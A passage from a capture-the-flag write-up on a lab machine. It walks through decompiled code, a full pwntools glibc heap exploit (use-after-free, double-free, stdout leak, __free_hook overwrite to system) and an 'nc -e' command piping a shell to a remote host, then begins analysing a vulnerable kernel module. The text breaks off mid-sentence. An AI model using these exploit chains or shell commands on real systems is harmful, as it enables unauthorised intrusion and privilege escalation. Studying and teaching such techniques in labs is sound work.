  }
  
  return;
}


void add_file(char *name)
{
  int iVar1;
  char *content;
  int i;
  uint size;
  
  if ((g_file_array[0].content_ptr == 0x0) || (g_file_array[1].content_ptr == 0x0)) {
    i = 0;
    for (i=0; i<2; i++) {
      if (strcmp(g_file_array[i].name, name)) {
        puts("rshell: file exists");
        return;
      }
    }
    for (i=0; i<2; i++) {
      if (g_file_array[i].content_ptr == 0x0) {
        strncpy(g_file_array[i].name, name, 0xbe);
        printf("size: ");
        scanf("%u", &size);
        getchar();
        if (size > 0x70) {
          puts("Memory Error!");
          memset(g_file_array[i].name, 0, 200);
        } else {
          content = malloc(size);
          g_file_array[i].content_ptr = content;
          
          if (g_file_array[i].content_ptr == 0x0) {
            exit(1);
          }
          printf("content: ");
          fgets(g_file_array[i].content_ptr, 0, stdin);
          break;
        }
      }
    }
  } else {
    puts("Memory Error!");
  }

  return;
}


void ls_file(void)
{
  int i;
  
  for (i=0; i<2; i++) {
    if (g_file_array[i].content_ptr != 0x0) {
      puts(g_file_array[i].name);
    }
  }
  
  return;
}


void rm_file(char *name)
{
  int i;
  
  for (i=0; i<2; i++) {
    if ((strcmp(name,g_file_array[i].name)) && (g_file_array[i].content_ptr != 0x0)) {
      memset(g_file_array[i].name,0,200);
      free(g_file_array[i].content_ptr);
      g_file_array[i].content_ptr = NULL;
      
      return;
    }
  }
  
  printf("rm: cannot remove \'%s\': No such file or directory\n",name);
  return;
}


void edit_file(char *name)
{
  uint size;
  int i;
  char *buffer;
  
  i = 0;
  for (i=0; i<2; i++) {
    if ((strcmp(name,g_file_array[i].name)) && (g_file_array[i].content_ptr != NULL)) {
      size = 0;
      printf("size: ");
      scanf("%u",&size);
      getchar();
      if (size > 0x70) {
        puts("Memory Error!");
        return;
      }
      
      buffer = realloc(g_file_array[i].content_ptr, size);
      if (buffer == NULL) {
        puts("Error");
      }
      else {
        g_file_array[i].content_ptr = buffer;
        printf("content: ");
        read(0, g_file_array[i].content_ptr, size);
      }
      
      return;
    }
  }
  
  puts("rshell: No such file or directory");
  return;
}
```

Looking at the code, nothing obviously wrong can be found: The binary
resembles a minimal shell which allows the following commands: `ls`,
`add <name>`, `rm <name>`, `echo <something>`, `edit <name>`, `whoami`
and `id`

For `add` and `edit`, the user can then enter a size and a content
value, with the size being no larger than 0x70 and the content not being
allowed to be longer than the specified size value. The user is allowed
to create a maximum of 2 files which are stored in a global array. After
tracing down how imported functions are used, it became apparent that
the `edit` function lacks a crucial safety check: It is possible to
specify a new size of 0. This value is then passed into `realloc` which
in turn makes `realloc` actually perform a `free`. Thus, we can create a
use-after-free situation, here. Additionally, one should notice that
`add` and `edit` use different functions for reading the user input
which will later become important, since one is adding a trailing NULL
byte and the other doesn’t 😉

## Exploiting the bug \#2

In general, a use-after-free will allow to leak internal memory
addresses and thus defeat ASLR. Unfortunately, we don’t have a `print`
function, here. We can only print out the files’ names via `ls`, but
that one isn’t susceptible to any exploitation attempts. Usually, heap
exploitation would follow the general path of: corrupt the heap to gain
access to a libc address, leak the address to defeat ASLR, overwrite the
`__free_hook` (or sometimes some other hook, e.g. `__malloc_hook` or
`__realloc_hook`, or any other funtion pointer) and thus gain arbitrary
code execution.

The best place to find a libc address would be the unsorted bin (blatant
oversimplification: The heap contains several single-/double-linked
lists for “caching” free’d chunks, in order to quickly supply new chunks
upon request, without having to bother the kernel) as its first element
will contain a pointer back to the main arena, which resides inside
libc’s memory region. But since we are dealing with libc version 2.29,
we will have to free chunks of at least 1040 bytes, since the tcache has
bins of up to 1032 bytes in size. And until the according tcache in is
full, it will be preferred over other bins. Unfortunately, the maximum
file size of 0x70 is “slightly” smaller than 1040. So, we can’t simply
allocate and `realloc(0)` such a chunk.

Instead, 2 overlapping chunks have to be created, so that the second
chunk’s meta data can be overwritten. This can be achieved by allocating
a chunk of at least 0x50 bytes (sum of the 2 smallest tcache chunk
sizes), “freeing” the chunk via realloc and allocating a 2^(nd) chunk of
the same size. That way, both “files” will reference the same chunk.
Now, one file (e.g. file2) gets resized to e.g. 0x20 bytes, resulting in
the remainder being freed into the 0x30 tcache. Afterwards, file gets
freed, and a new file2 with a size of 0x30 get allocated. The first
chunk is still 0x50 bytes large, and thus overlaps “file2” and its meta
data. So, we can now change the chunk’s size to e.g. 0x421 bytes (the
least-significant bit in a chunk’s size field determines if the
preceeding chunk is still in use; if that bit isn’t set, the heap
allocator might consolidate both chunks, and thus interfering with our
exploit attempts). As soon as “file2” gets freed, the size value inside
its meta data would determine that it gets moved into the unsorted bin.

But since the libc authors know about such kinds of attacks, this will
miserably fail with a SIGABRT being thrown. The libc has many security
measures to protect against heap exploits, for instance: When freeing
into the unsorted bin, it checks whether chunk following the to-be-freed
chunk has its `prev_inuse` flag set. So, we need to allocate some
“garbage chunks” that pre-fill the heap with chunks that have the bit
set (or contain some data that has a 1 at the according bit address).
Unfortunately, we can only allocate 2 files with 112 bytes each, which
is far from the required 1040 (plus some scratch space). Here, 2.5
things come into play:

- chunks are actually 16 bytes larger than their requested payload size,
  due to the meta data at the beginning
- Using e.g. `alloc(112)`, `realloc(56)`, `free`, we can fill up memory,
  since none of the freed chunks can be reused to service “larger”
  allocation (which is why chunks get consolidated in
  unsorted/small/large bin, when freed)
- chunks that get freed into the tcache or fastbin will keep their
  `prev_inuse` flag set

At the beginning, we said that we can exploit the `realloc(0)` to get 2
pointers to the same chunk. Unfortunately, when trying to free both
pointers, we will run into another SIGABRT, since double-free attempts
are being detected in certain situations: When freeing into the tcache,
libc will check if the pointer is already present in any of the tcache
bins’ 7 slots. Each tcache bin has 7 slots, every new free of the same
size will place the chunk inside the according fastbin. When freeing
into the fastbin, libc will check if the pointer is already the latest
element inside the fastbin, or if it’s present in the tcache. When
freeing into the tcache, libc will NOT check if the pointer is already
inside the fastbin. And this is, where it can be attacked: We fill up
the according tcache bin, free the chunk into the fastbin, allocate one
chunk from the respective (filled-up) tcache (allocations will always be
serviced from the tcache, first) and then “double-free” the pointer
without triggering the safety-checks (the following code uses `pwntools`
and some helper functions to build the exploit chain):

``` brush:
info("add(b'test1', p64(0)*3 + p64(0x41), 88)")
add(b'test1', p64(0)*3 + p64(0x61) + p64(0), 88)      # 0x55555555e260 (0x60)
info("add(b'test2', p64(0)*3 , 56)")
add(b'test2', p64(0)*3 , 56)                          # 0x55555555e2c0 (0x40)
info("remove(b'test2')")
remove(b'test2')                                      # tcache [0x40]: 0x55555555e2c0 <- 0x0
info("add(b'test2', p64(0)*3, 88)")
add(b'test2', p64(0)*3, 88)                           # 0x55555555e300 (0x60)
info("remove(b'test1')")
remove(b'test1')                                      # tcache [0x60]: 0x55555555e260 <- 0x0

success('Creating overlapping chunk')
info("edit(b'test2', b'', 0)")                        # 0x55555555e300 (0x60)
edit(b'test2', b'', 0)                                # tcache [0x60]: 0x55555555e300 -> 0x55555555e260 <- 0x0
info("edit(b'test2', b'\\x80', 88)")                  # 0x55555555e300 (0x60)
edit(b'test2', b'\x80', 88)                           # tcache [0x60]: 0x55555555e300 -> 0x55555555e280 <- 0x0

success('Filling up some heap space to later pass the nextchunk->prev check...')
for _ in range(8):
  info("add(b'test1', b'Y'*112, 112)")
  add(b'test1', b'Y'*112, 112)                        # 0x55555555e6e0 0x80
  info("edit(b'test1', b'y'*72, 72)")                 # 0x55555555e6e0 0x50
  edit(b'test1', b'y'*72, 72)                         # tcache [0x30] 0x55555555e6b0 -> 0x55555555e630 -> 0x55555555e5b0 -> 0x55555555e530 -> 0x55555555e4b0 -> 0x55555555e430 -> 0x55555555e3b0 <- 0x0
                                                      # fastbin [0x30] 0x55555555e720 <- 0x0
  info("rm(b'test1')")
  remove(b'test1')                                    # tcache [0x50] 0x55555555e660 -> 0x55555555e5e0 -> 0x55555555e560 -> 0x55555555e4e0 -> 0x55555555e460 -> 0x55555555e3e0 -> 0x55555555e360 <- 0x0
                                                      # fastbin [0x50] 0x55555555e6d0 <- 0x0

success('Removing preceeding tcache chunk')
info("add(b'test1', p64(0)*3, 88)")                   # 0x55555555e300 (0x60)
add(b'test1', p64(0)*3, 88)                           # tcache [0x60]: 0x55555555e280 <- 0x0
info("edit(b'test1', p64(0)*3, 40)")                  # 0x55555555e300 (0x30)
edit(b'test1', p64(0)*3, 40)                          # fastbin [0x30] 0x55555555e320 -> 0x55555555e720 <- 0x0
info("rm(b'test1')")
remove(b'test1')                                      # fastbin [0x30] 0x55555555e2f0 -> 0x55555555e320 -> 0x55555555e720 <- 0x0

success('Allow test2 to be free\'d without triggering "double-free (fast)"')
info("add(b'test1', p64(0)*3, 40)")                   # 0x55555555e6b0 (0x30)
add(b'test1', b'Z', 40)                               # tcache [0x30] 0x55555555e630 -> 0x55555555e5b0 -> 0x55555555e530 -> 0x55555555e4b0 -> 0x55555555e430 -> 0x55555555e3b0 <- 0x0
info("rm(b'test2')")
remove(b'test2')                                      # tcache [0x30] 0x55555555e300 -> 0x55555555e630 -> 0x55555555e5b0 -> 0x55555555e530 -> 0x55555555e4b0 -> 0x55555555e430 -> 0x55555555e3b0 <- 0x0
info("rm(b'test1')")
remove(b'test1')                                      # fastbin [0x30] 0x55555555e6a0 -> 0x55555555e2f0 -> 0x55555555e320 -> 0x55555555e720 <- 0x0

success('Grab a dangling pointer to the large chunk')
info("add(b'test1', p64(0)*3, 56)")                   # 0x55555555e2c0 (0x40)
add(b'test1', b'', 56)                                # tcache [0x40]: empty
info("edit(b'test1', b'', 0)")                        # 0x55555555e2c0 (0x40)
edit(b'test1', b'', 0)                                # tcache [0x40]: 0x55555555e2c0 <- 0x0

success('Changing large chunk\'s size value to unsorted bin size')
info("add(b'test2', p64(0)*7 + p64(0x451), 88)")      # 0x55555555e280 (0x40)
add(b'test2', p64(0)*7 + p64(0x471), 88)              # tcache [0x60]: empty
info("rm(b'test2')")
remove(b'test2')                                      # tcache [0x40]: 0x55555555e280 -> 0x55555555e2c0 <- 0x0
info("add(b'test2', p64(0)*3, 112)")
add(b'test2', p64(0)*3, 112)                          # 0x55555555e760 (0x80)
info("edit(b'test2', p64(0)*3, 24)")                  # 0x55555555e760 (0x20)
edit(b'test2', p64(0)*3, 24)                          # tcache [0x60]: 0x55555555e780 <- 0x0
info("rm(b'test2')")                                
remove(b'test2')                                      # tcache [0x20]: 0x55555555e760 <- 0x0
info("add(b'test2', p64(0)*3, 112)")
add(b'test2', p64(0)*3, 112)                          # 0x55555555e7e0 (0x80)
info("edit(b'test2', p64(0)*3, 40)")                  # 0x55555555e7e0 (0x30)
edit(b'test2', p64(0)*3, 40)                          # fastbin [0x50] 0x55555555e800 -> 0x55555555e6d0 <- 0x0
info("rm(b'test2')")
remove(b'test2')                                      # fastbin [0x30] 0x55555555e7d0 -> 0x55555555e6a0 -> 0x55555555e2f0 -> 0x55555555e320 -> 0x55555555e720 <- 0x0


success('Next step will free test1 into the unsorted bin')
info("edit(b'test1', b'', 0)")                        # 0x55555555e2c0 (0x471)
edit(b'test1', b'', 0)                                # unsortedbin: 0x55555555e2b0 —> 0x15555551aca0 (main_arena+96) <— 0x55555555e2b0
```

Now that we have a potential libc leak, how can we actually make it
leak. Turns out that Angelboy gave a talk at [HITB GSEC Singapore](https://www.youtube.com/watch?v=Fr3VU5hdL4s "https://www.youtube.com/watch?v=Fr3VU5hdL4s")
about exploiting file structures to gain information leakage and finally
code execution. In essence, we need to manipulate the internal structure
of STDOUT’s file descriptor, modifying its base address pointer. We
don’t know the exact address, but the lowest 12 bit are 0x760. So, we
can overwrite the `main_arena` pointer from the unsorted bin chunk
(which we also have a pointer to, due to use-after-free and later on a
double-free). But we can only write complete bytes, not nibbles. Thus,
we need to “brute-force” the upper 4 bits, resulting in a 1/16 success
rate for our exploit. Once the base pointer was modified, the kernel
will try to catch up with the “buffered” data when the next output to
stdout is requested and thus pour a lot of data to stdout, eventually
leaking all kinds of addresses: At offset 0xaca6 we can find a heap
address that is located at `heap_base + 0x2f0` and at offset 0xb696 in
this stream, we can find an address located at `libc_base + 0x1e5703`:

``` brush:
success('Partially overwrite FD with _IO_2_1_stdout_ address (with a 4-bit brute-force, so check if we hit it ;-)')
info("edit(b'test1', p16(0xb760), 56)")               # 0x55555555e2c0 (0x40)
edit(b'test1', p16(0xb760), 56)                       # unsorted all [corrupted]
                                                      # unsorted FD: 0x55555555e2f0 —> 0x55555555e2b0 —> 0x15555551b760 (_IO_2_1_stdout_) —> 0x15555551b7e3 (_IO_2_1_stdout_+131) <— 0xffffffffff
                                                      # unsorted BK: 0x55555555e2b0 —> 0x55555555e2f0 —> 0x15555551aca0 (main_arena+96) <— 0x55555555e2b0


success('Remove useless tcache chunks')
#pause()
info("add(b'test2', p64(0x21)*3, 56)"  )              # 0x55555555e2c0 (0x40)
add(b'test2', p64(0x21)*3, 56)                        # tcache [0x40]: empty (or rather, 0x15555551b760 (_IO_2_1_stdout_))
info("edit(b'test2', b'Y', 24)")                      # 0x55555555e2c0 (0x20)
edit(b'test2', b'Y', 24)                              # tcache [0x20]: 0x55555555e2e0 -> 0x55555555e280 -> 0x55555555e2a0 -> 0x55555555e760 <- 0x0
info("rm(b'test2')")
remove(b'test2')                                      # tcache [0x20]: 0x55555555e2c0 -> 0x55555555e2e0 -> 0x55555555e280 -> 0x55555555e2a0 -> 0x55555555e760 <- 0x0

success('Grab chunk overlapping _IO_2_1_stdout_ and partially overwrite _IO_write_base with 0x000a')
#pause()
info("add(b'test2', p64(0xfbad1800) + p64(0)*3, 56)") # 0x000015555551b760 (_IO_2_1_stdout_)
add(b'test2', p64(0xfbad1800) + p64(0)*3, 56)         # tcache [0x40]: 0xfbad2887 (with counter = -1)

leak = b''
try:
  while len(leak) < 0xb700:
    leak += p.read(0x10000)
except:
  pass
success('Leaked 0x%x bytes of heap data.' % len(leak))
success('Found heap leak: 0x%x' % u64(leak[0xaca6:0xacae]))
heap_base = u64(leak[0xaca6:0xacae]) - 0x2f0
success('Heap base address is at: 0x%x' % heap_base)
success('Found libc leak: 0x%x' % u64(leak[0xB696:0xB69E]))
libc.address = u64(leak[0xB696:0xB69E]) - 0x1e5703
success('Libc base address is at: 0x%x' % libc.address)

p.sendline()
```

At that point, the file labeled “test2” will not be usable, anymore. Any
attempts to free that chunk will result in different safety-checks being
triggered, and a SIGABRT being raised. In order to gain code execution,
we would only need to overwrite the `__free_hook` with the address of
`system`, create a file named `/bin/sh` and remove it. to overwrite the
`__free_hook`, we need to create/get an overlapping chunk, again. This
time, the freed chunk’s `next` pointer would be overwritten with the
address of `__free_hook`, so that we could grab a pointer to and
overwrite that address with 2 consecutive allocations. Unfortunately, we
only have usable file slot left. By properly sizing the overlapping
chunk at the beginning, this one can now be used, again, to achieve our
goal. First, we overwrite the overlapped chunk’s `next` pointer with the
address of `__free_hook`, then we free the overlapping chunk, allocate
the overwritten chunk, resize it to a smaller size (to prevent it from
being freed back into the old bin, since the layout before allocation
would be `overlapped_chunk -> __free_hook -> 0x0`; and we want to get
the \_\_free_hook with the next allocation) and free it. Then, allocate
the \_\_free_hook and write the address of system into it, free it,
create a file named `/bin/sh` and remove that file:

``` brush:
info("edit(b'test1', p64(libc.sym.__free_hook) + p64(0), 24)")  # 0x55555555e2c0 (0x21)
edit(b'test1', p64(libc.sym.__free_hook) + p64(0), 24)          # tcache [0x20]: 0x55555555e280 -> 0x55555555e2a0 -> 0x55555555e760 <- 0x0
info("rm(b'test1')")
remove(b'test1')                                                # tcache [0x20]: 0x55555555e2c0 -> 0x55555555e280 -> 0x55555555e2a0 -> 0x55555555e760 <- 0x0

info("b'test1', b'A', 88)")
add(b'test1', b'A', 88)
info("edit(b'test1', b'A', 40)")
edit(b'test1', b'A', 40)
info("rm(b'test1')")
remove(b'test1')

success('Grabbing overlapping chunk.')
info("add(b'test1', p64(0)*7 + p64(0x81) + p64(libc.sym.__free_hook), 88)")
add(b'test1', p64(0)*7 + p64(0x81) + p64(libc.sym.__free_hook), 88)
info("rm(b'test1')")
remove(b'test1')
info("add(b'test1', b'A', 24)")
add(b'test1', b'A', 24)
info("rm(b'test1')")
remove(b'test1')

success('Overwrite __free_hook with system()')
info("add(b'test1', p64(libc.sym.system), 24)")
add(b'test1', p64(libc.sym.system), 24)
info("rm(b'test1')")
remove(b'test1')

success('Executing shell')
info("add(b'test1', b'/bins/sh', 88)")
add(b'test1', b'/bin/sh', 88)
info("rm(b'test1')")
remove(b'test1')


p.interactive('')
exit(0)
```

Since the exploit only has a 1/16 chance of hitting the correct address
(in most other cases the binary will just crash), I copied ncat over to
the machine and constantly called `nc -e /bin/rshell <ip> <port>` on the
target system and made the pwntools script listen for incoming
connections and then sending the actual payloads. When the exploit
failed, I simply restarted the Python script and caught the next
incoming connection from the rshell, until eventually the exploit
succeeded and finally returned an interactive shell as user r4j.

Since that shell didn’t allow accessing the user flag (user.txt is owned
by root, but the r4j group has read access to it), directly, the public
ssh key was written into r4j’s `authorized_keys` file, to gain a proper
user shell:

[](./rope2_08.png)

[](./rope2_09.png)

## Reconnaissance \#3

Once access to user r4j was gained, a route to root had to be found.
After a long time, a kernel module with the name `ralloc.ko` was found,
where the group r4j had read access to:

[](./rope2_10.png)

After downloading the file, it was investigated with Ghidra.

## Spotting the bug \#3

In Ghidra one can see that the kernel module provides an ioctl function.
After disabling/hiding all the fancy type casts (Edit -\> Tool options
-\> Options -\> Decompiler -\> Display -\> “Disable printing of type
casts”) that Ghidra spread over the code, it became more and more
understandable: There is a global array that can take up to 32
`ralloc_item`s:

``` brush:
struct ralloc_item {
    long size;
    void *data;
};

ralloc_item arr[32];
```

The ioctl accepts 4 commands with the numeric values:

- 0x1000: Allocate new ralloc_item on the kernel heap and place it
  inside the global array, taking a size and index parameter
- 0x1001: Delete an ralloc_item from the array and kernel heap, taking
  an index parameter
- 0x1002: Write data from a user-space buffer into an ralloc_item’s data
  field, taking a pointer and an index parameter
- 0x1003: Read data from an ralloc_item into a user-space buffer, taking
  a pointer and an index parameter

The size of an ralloc_item’s data field may not exceed 0x400 bytes. The
read and write commands properly check, whether the pointer is in the
correct memory space (kernel-space for read and user-land for write):

``` brush:
long rope2_ioctl(FILE *f, uint cmd, ulong arg)
{
    void *__dest;
    long result;
    void *ptr;
    ulong size;
    ulong idx;
    void *ptrUserSpace;
    
    __fentry__();
    mutex_lock(lock);
    
    // unsigned long copy_from_user (void *to, const void __user *from, unsigned long n);
    _copy_from_user(&idx, arg, 0x18);
    
    result = -1;
    switch (cmd) {          
        case 0x1000:    // create buffer
            if ((size < 0x401) && (idx < 0x20)) {
                if (arr[idx].data == 0x0) {
                    // void * __kmalloc (size_t size, int flags);
                    ptr = __kmalloc(size, GFP_KERNEL);
                    arr[idx].data = ptr;
                    if (ptr != 0x0) {
                        arr[idx].size = size + 0x20;
                        result = 0;
                    }
                }
            }
            break;
            
        case 0x1001:    // delete buffer
            if ((idx < 0x20) && (arr[idx].data != 0)) {
                kfree(arr[idx].data);
                arr[idx].data = 0;
                result = 0;
            }
            break;
        
        case 0x1002:    // write to array
            if (idx < 0x20) {
                __dest = arr[idx].data;
                ptr = ptrUserSpace;
                if ((arr[idx].data != 0x0) && ((size & 0xffffffff) <= arr[idx].size)) {
                    if ((ptrUserSpace & 0xffff000000000000) == 0) {
                        memcpy(__dest, ptr, size & 0xffffffff);
                        result = 0;
                    }
                }
            }
            break;
        
        case 0x1003:    // read from array
            if (idx < 0x20) {
                __dest = ptrUserSpace;
                ptr = arr[idx].data;
                if ((ptr != 0x0) && ((size & 0xffffffff) <= arr[idx].size)) {
                    if ((ptrUserSpace & 0xffff000000000000) == 0) {
                        memcpy(__dest, ptr, size & 0xffffffff);
                        result = 0;
                    }
                }
            }
            break;
    }
    mutex_unlock(lock);
    
    return result;
}
```

For some reason, the developer decided to increase the `size` field’s
value by 0x20, after allocating the `data` chunk:

[](./rope2_11.png)

So, we basically have a classic heap overflow in the kernel, here. This
will allow to read and write 32 bytes after the buffer’s end,
overflowing into the next slab (in kernel heap, chunks are called
slabs).

## Exploiting the bug \#3

[](./rope2_12.png)

Checking the target system’s os and kernel version, as well as the boot
commandline, I decided to create a dedicated, local debug and target
machine with a vanilla Ubuntu 19.04, following the [Debugging the Linux kernel with VMware](https://xakcop.com/post/vmw-kernel-debugging/ "https://xakcop.com/post/vmw-kernel-debugging/")
tutorial.

Since Ubuntu 19.04 was already discontinued at the time I reached this
point, I couldn’t install the kernel debug symbols via apt, but had to
find them elsewhere. Running into many 404s, I finally managed to find
the [linux-image-unsigned-5.0.0-38-generic-dbgsym_5.0.0-38.41_amd64.ddeb package on Launchpad](https://launchpad.net/ubuntu/+archive/primary/+sourcepub/10913664/+listing-archive-extra "https://launchpad.net/ubuntu/+archive/primary/+sourcepub/10913664/+listing-archive-extra").

Once everything was set up, I had to connect via SSH to the debug
machine in order to forward the debug port that VMware Workstation
exposed to my (Windows) host machine into the (identical to the target)
debug machine. For easier debugging, a `gdbinit` script was created that
contained all important settings (location of debug symbols and the
section addresses of ralloc.ko), some “auto start” commands (connecting
to the target and setting a few breakpoints), as well as some helper
functions for printing the next 10 instructions and the global array’s
contents:

``` brush:
symbol-file -readnow /usr/lib/debug/boot/vmlinux-5.0.0-38-generic
set disassembly-flavor intel
set architecture i386:x86-64

define pc
 x/10i $rip
end

define pa
 x/64gx &arr
end

target remote localhost:8864

# cd /sys/module/ralloc/sections
# sudo cat .text .data .bss 
add-symbol-file ralloc.ko 0xffffffffc038a000 -s .data 0xffffffffc038c000 -s .bss 0xffffffffc038c4c0

# alloc
#b *rope2_ioctl+295
# free
#b *rope2_ioctl+239
# write
#b *rope2_ioctl+370
# read
#b *rope2_ioctl+113
#b native_write_cr4
#b *tty_release+0xf7
b *mce_severity_intel+36
b *commit_creds+317
b *commit_creds+481
c
```

After all that preparation, the question was: How to proceed from here.
I never really bothered digging deeper into how the kernel works, let
alone how to exploit it. After some searching, the [Linux Kernel Exploitation list by xairi on Github](https://github.com/xairy/linux-kernel-exploitation "https://github.com/xairy/linux-kernel-exploitation")
and the [Linux Kernel exploitation techniques by Lazenca.0x0](https://www.lazenca.net/display/TEC/07.Linux+Kernel+exploitation+techniques)
turned out to be invaluable resources to get up and running. From the
screenshot, above, we can derive that KASLR (Kernel Address Space Layout
Randomization), SMEP (Supervisor Mode Execution Prevention) and KPTI
(Kernel Page-Table isolation) are enabled, whereas SMAP (Supervisor Mode
Access Prevention) is disabled. So, we can directly access data that is
located in user-land memory regions (due to SMAP being disabled), but
can’t execute shellcode residing inside (due to KPTI). Also, functions
in user-land can NOT be called (due to SMEP), but the address of ROP
gadgets in the kernel will change with each reboot (due to KASLR).

To escalate our privileges, there are basically 2 potential exploit
paths:

1.  Find the exploit binary’s `credential` structure and change the
    `uid` and `gid` fields to 0 (thus making the process continue to run
    as root, instead of the original user)
2.  Gain arbitrary code execution and invoke a shell as user root.
3.  Modify the root flag’s permissions from kernel space (but where’s
    the fun, when you don’t even get a shell ;P )

Option \#1 can become quite tedious and cumbersome, so I decided to
chase for code execution. For getting code execution we would need to
find and overwrite a function pointer in kernel space. Luckily, there is
an overview of [Structures that can be used in kernel exploits](https://ptr-yudai.hatenablog.com/entry/2020/03/16/165628 "https://ptr-yudai.hatenablog.com/entry/2020/03/16/165628").
Looking through the potential targets, and which kmalloc slab size they
fall into, the
[`tty_struct`](https://elixir.bootlin.com/linux/v5.0/source/include/linux/tty.h#L283 "https://elixir.bootlin.com/linux/v5.0/source/include/linux/tty.h#L283")
turns out to be the ideal target: It gets put into kmalloc-1024 which is
0x400 in hex (the maximum size of our ralloc_items), it begins with a
magic number (and thus can be easily identified), it contains a pointer
to a
